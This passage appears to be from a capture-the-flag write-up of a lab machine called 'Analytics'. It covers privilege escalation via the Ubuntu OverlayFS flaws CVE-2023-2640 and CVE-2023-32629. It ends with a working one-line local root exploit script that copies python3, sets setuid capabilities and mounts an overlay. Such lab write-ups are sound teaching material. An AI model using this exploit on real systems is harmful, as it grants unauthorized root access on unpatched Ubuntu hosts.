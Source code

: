 ```bash 
        inet6 fe80::250:56ff:feb9:8214  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:82:14  txqueuelen 1000  (Ethernet)
        RX packets 440816  bytes 59748451 (59.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 402256  bytes 274645659 (274.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```


![](https://alternume0.github.io/assets/img/analytics_exploit01.jpg)


## PRIV ESCALATION

I like to start with some basic enumeration commands, such as **sudo -l**, **uname -a**,....




```bash
metalytics@analytics:/var/tmp$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
metalytics@analytics:/var/tmp$ 
```

**the host is running Ubuntu:**

Make sense always to have a look for vulnerabilities that could affect the OS, as it is a easy way to escalate privileges.

![](https://alternume0.github.io/assets/img/analytics_priv01.jpg)

**And the OS  release 22.04 version 6.2.0 is affected by GameOver(lay) privilege escalation vulnerability**


**CVE-2023-2640 and CVE-2023-32629**

These CVEs affect the OverlayFS module in Ubuntu, which is widely used in container scenarios. They allow the creation of specialized executables, which, upon execution, grant the ability to escalate privileges to root on the affected machine.

More information:
[https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability){:target="_blank"}


In order to exploit it,  I will run this script in the victim:


[https://github.com/luanoliveira350/GameOverlayFS](https://github.com/luanoliveira350/GameOverlayFS){:target="_blank"}

if it works, the id command will be executed as root

```bash 
metalytics@analytics:/tmp/.alter$ cat c.sh 
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```
